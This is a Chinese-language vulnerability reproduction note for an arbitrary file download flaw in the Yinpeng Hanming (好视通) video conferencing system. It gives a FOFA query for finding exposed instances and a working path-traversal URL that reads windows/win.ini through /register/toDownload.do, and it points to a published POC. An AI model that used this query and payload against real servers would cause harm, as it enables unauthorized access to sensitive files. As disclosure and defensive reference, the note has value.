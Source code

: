 # 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/yp-1.png)

漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](http://wikioss.peiqi.tech/vuln/yp-2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Yinpeng_Hanming_Video_Conferencing__Arbitrary_file_read.json

![](http://wikioss.peiqi.tech/vuln/yp-3.png)

![](http://wikioss.peiqi.tech/vuln/yp-4.png)